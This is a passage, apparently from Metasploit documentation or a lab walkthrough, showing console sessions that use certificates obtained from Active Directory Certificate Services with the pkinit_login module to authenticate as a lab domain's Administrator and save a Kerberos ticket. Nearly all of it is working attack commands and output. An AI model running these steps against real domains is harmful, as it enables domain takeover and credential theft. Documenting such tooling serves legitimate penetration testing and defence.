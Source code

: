 ```
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Finally we can use the `pkinit_login` module to log in to the domain as `Administrator@daforest.com` using the new PFX file:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use pkinit_login

Matching Modules
================

   #  Name                                   Disclosure Date  Rank    Check  Description
   -  ----                                   ---------------  ----    -----  -----------
   0  auxiliary/admin/kerberos/pkinit_login                   normal  No     Kerberos Authentication Check Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/kerberos/pkinit_login

[*] Using auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for Administrator@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216155910_default_172.30.239.85_mit.kerberos.cca_300840.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/pkinit_login) > loot

Loot
====

host           service  type                 name             content                   info                                                                     path
----           -------  ----                 ----             -------                   ----                                                                     ----
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
172.30.239.85           mit.kerberos.ccache                   application/octet-stream  realm: DAFOREST.COM, client: administrator, server: krbtgt/daforest.com  /home/gwillcox/.msf4/loot/20221216155910_default_172.30.239.85_mit.kerberos.cca_300840.bin

msf6 auxiliary(admin/kerberos/pkinit_login) >
```
